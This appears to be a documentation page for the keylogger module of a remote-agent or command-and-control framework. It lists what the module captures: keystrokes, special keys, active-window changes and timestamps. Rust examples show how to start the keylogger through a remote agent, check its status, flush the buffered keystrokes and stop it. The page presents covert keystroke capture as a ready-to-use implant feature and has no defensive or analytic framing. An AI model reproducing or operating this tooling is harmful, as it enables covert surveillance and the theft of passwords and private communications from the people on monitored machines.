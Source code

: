 ### Special Key Handling

- **Printable characters**: Direct Unicode translation
- **Special keys**: Formatted tokens like `[ENTER]`, `[BACKSPACE]`, `[TAB]`
- **Window changes**: Context entries showing new active window
- **Timestamps**: Precise system time for each keystroke

## Usage Examples

### Starting Keylogger

```rust
use nexus_common::tasks::TaskBuilder;

// Create start task
let start_task = TaskBuilder::keylogger_start();

// Execute through agent
let result = agent.execute_task(start_task).await?;
println!("Keylogger started: {}", result);
```

### Monitoring Status

```rust
// Check if keylogger is active
let status_task = TaskBuilder::keylogger_status();
let result = agent.execute_task(status_task).await?;

// Result contains JSON with status information
println!("Status: {}", result);
```

### Collecting Data

```rust
// Flush buffered keystrokes
let flush_task = TaskBuilder::keylogger_flush();
let result = agent.execute_task(flush_task).await?;

// Process collected keystroke data
process_keylogger_data(&result);
```

### Stopping Keylogger

```rust
// Stop keylogger and collect final data
let stop_task = TaskBuilder::keylogger_stop();
let result = agent.execute_task(stop_task).await?;

// Final data is included in the stop result
println!("Keylogger stopped: {}", result);
```
